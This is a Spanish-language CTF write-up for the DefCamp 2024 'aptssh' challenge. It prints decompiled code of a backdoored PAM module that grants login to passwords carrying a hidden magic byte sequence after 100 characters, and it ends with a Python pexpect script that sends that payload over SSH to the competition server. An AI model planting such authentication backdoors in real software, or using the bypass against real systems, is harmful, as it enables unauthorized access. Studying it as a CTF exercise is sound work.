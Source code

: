 ```yaml
---
layout: post
title: "aptssh DefCamp 2024"
comments: true
categories: [Pwn, Writeups, DefCamp]
---
```


Este es un reto de la competición de CTF DefCamp 2024, organizada por [DefCamp](https://www.linkedin.com/company/defcamp/?originalSubdomain=es). Este fue uno de los 4 retos de la categoría de PWN, de categoría *easy*.

![Image]({{ site.baseurl }}/images/posts/2024-10-1-Buy-coffee-DefCamp24-CTF-Logo.png)

# Overview

Este reto consistía en una aplicación PAM con una *backdoor* que spawneaba una shell en caso de que la contraseña cumpliera ciertos requisitos. 

# Reconocimiento

Se nos da únicamente una conexión por **SSH** (IP:puerto y credenciales), al conectarnos, se nos imprimen dos archivos encodeados en *base64*, en [cyberchef](https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')&input=WTI5dVptazZaR1Z1ZEdsaGJBPT0&oeol=CR) podemos convertirlo en dos archivos. Uno de ellos, es el que supuestamente tiene una *backdoor*. Podemos inspeccionar con *ghidra*:

```c
undefined4 pam_sm_authenticate(undefined8 param_1)
{
  int iVar2;
  size_t sVar3;
  FILE *__stream;
  char *pcVar4;
  undefined2 local_112;
  char *local_110;
  char *local_108;
  undefined4 local_100;
  undefined2 local_fc;
  undefined2 local_fa;
  undefined local_f8 [16];
  undefined local_e8 [16];
  undefined local_d8 [16];
  undefined local_c8 [16];
  undefined local_b8 [16];
  undefined local_a8 [16];
  undefined4 local_98;
  undefined local_88 [120];
  undefined auVar1 [16];
  
  rand();
  local_98 = 0;
  local_f8 = (undefined  [16])0x0;
  local_e8 = (undefined  [16])0x0;
  local_d8 = (undefined  [16])0x0;
  local_c8 = (undefined  [16])0x0;
  local_b8 = (undefined  [16])0x0;
  local_a8 = (undefined  [16])0x0;
  iVar2 = dfgebrycw();
  if (iVar2 == 0) {
    iVar2 = pam_get_user(param_1,&local_110,"Username: ");
    if (iVar2 == 0) {
      iVar2 = pam_get_authtok(param_1,6,&local_108,0);
      if (iVar2 != 0) {
        return 7;
      }
      iVar2 = dfgebrycw();
      if (iVar2 != 0) {
        return 7;
      }
      send_debug_message(param_1,local_88);
	      iVar2 = strcmp(local_108,"aptssh");                           /*COMPARACION PARA aptssh:aptssh*/
      if (iVar2 == 0) {
        iVar2 = strcmp(local_110,"aptssh");
        if (iVar2 == 0) {
          output_base64_file(param_1,"/lib/security/pam_passfile.so");
          output_base64_file(param_1,"/pam_passfile.o");
          return 0;
        }
      }
      else {                                                           /*COMPARACION ALTERNATIVA*/
        iVar2 = ierubvhcjsx();
        if (iVar2 == 0) {
          iVar2 = dfgebrycw();
          if (iVar2 != 0) {
            return 7;
          }
          pam_casual_auth(&local_112);
          sVar3 = strlen(local_108);
          if (100 < sVar3) {                             /*COMPARA LA LONGITUD DE LA CONTRASEÑA*/
            iVar2 = 7000;
            do {
              iVar2 = iVar2 + -8;
            } while (iVar2 != 0);
            local_100 = 0xadc29ec3;
            local_fa = 0xafc3;
            local_fc = local_112;
            auVar1[0xf] = 0;
            auVar1._0_15_ = local_f8._1_15_;
            local_f8 = auVar1 << 8;
            iVar2 = memcmp(local_108 + 100,&local_100,9);  /*COMPARA A PARTIR DEL CARACTER 100 DE LA CONTRASEÑA*/
            if (iVar2 == 0) {
              iVar2 = 10000;
              do {
                iVar2 = iVar2 + -8;
              } while (iVar2 != 0);
              return 0;
            }
          }
          iVar2 = ierubvhcjsx();
          if (iVar2 == 0) {
            __strcpy_chk(local_f8,local_108,100);
            iVar2 = strcmp(local_110,"sshuser");
            if (iVar2 == 0) {
              __stream = fopen("/home/sshuser/pass.txt","r");
              if (__stream == (FILE *)0x0) {
                return 7;
              }
              pcVar4 = fgets(local_f8,100,__stream);
              if (pcVar4 != (char *)0x0) {
                fclose(__stream);
                sVar3 = strcspn(local_f8,"\n");
                local_f8[sVar3] = 0;
                iVar2 = strcmp(local_108,local_f8);
                if (iVar2 != 0) {
                  return 7;
                }
                return 0;
              }
              fclose(__stream);
              iVar2 = 10000;
              do {
                iVar2 = iVar2 + -8;
              } while (iVar2 != 0);
              return 7;
            }
            iVar2 = 10000;
            do {
              iVar2 = iVar2 + -8;
            } while (iVar2 != 0);
          }
        }
      }
    }
  }
  else {
    iVar2 = 10000;
    do {
      iVar2 = iVar2 + -8;
    } while (iVar2 != 0);
  }
  return 10;
}
```

Aquí vemos dos comparaciones principales, la primera, en caso de utilizar las credenciales `aptssh:aptssh`, que nos dará los archivos que tenemos. Además, vemos que en caso de un login correcto, tenemos un código de estado `0` (`return 0;`).

En la segunda comparación, se comprueba que la longitud de la contraseña sea mayor de 100. Después, se comprueban los carácteres a partir de la posición 100:

```c
if (100 < sVar3) {    /*COMPARA LA LONGITUD DE LA CONTRASEÑA*/
	
	iVar2 = 7000;
	do {
	  iVar2 = iVar2 + -8;
	} while (iVar2 != 0);    /*DELAY*/
	
	local_100 = 0xadc29ec3;
	local_fa = 0xafc3;
	local_fc = local_112;
	auVar1[0xf] = 0;
	auVar1._0_15_ = local_f8._1_15_;
	local_f8 = auVar1 << 8;
	iVar2 = memcmp(local_108 + 100,&local_100,9);  /*COMPARA A PARTIR DEL CARACTER 100 DE LA CONTRASEÑA*/
	if (iVar2 == 0) {
	  iVar2 = 10000;
	  do {
		iVar2 = iVar2 + -8;
	  } while (iVar2 != 0);
	  return 0;
	}
  }
```

Vemos que se comparan 9 bytes del dirección a la que apunta `local_100`, sin embargo, sólo contiene 4 (`0xadc29ec3`). Por tanto, seguirá leyendo las posiciones adyacentes:

```c
undefined4 local_100;
undefined2 local_fc;
undefined2 local_fa;
undefined local_f8 [16];
```

Por tanto, debemos pasar los valores que contendrán dichas variables: `local_100 (4B) + local_fc (2B) + local_fa (2B) + local_f8 (1B)`

```c
void pam_casual_auth(undefined2 *param_1) {
  *param_1 = 0xbec2;
  return;
}
```
> `local_112` se asigna mediante esta función.

# Explotación

De esta forma nos queda un payload como: `100*A + 0xadc29ec3 + 0xbec2 + 0xafc3 + 0x00`. Ya podemos crear un script de *python*, teniendo en cuenta que debemos mandar cada valor en *Little-Endian*:

```python
import pexpect

ssh_host = "34.159.156.124"
ssh_port = 32487
username = "sshuser"
payload = (
    b"a" * 100 +
    b"\xc3\x9e\xc2\xad\xc2\xbe\xc3\xaf"
)

child = pexpect.spawn(f"ssh -p {ssh_port} {username}@{ssh_host}")
child.expect("d:")
child.sendline(payload)
print(child.before.decode("utf-8"))
child.interact()
```

Este es un script creado por [r0-dev-null](https://github.com/r0-dev-null/ctf-writeups/tree/main/DCTF%202024%20Quals), ya que genera una shell más estable de la que logré con pwntools.

El reto en sí no creo que deba categorizarse como PWN sino como reversing, ya que no se ataca una vulnerabilidad de un programa como tal, sino que se resuelve mediante la aplocación de ingeniería inversa al binario.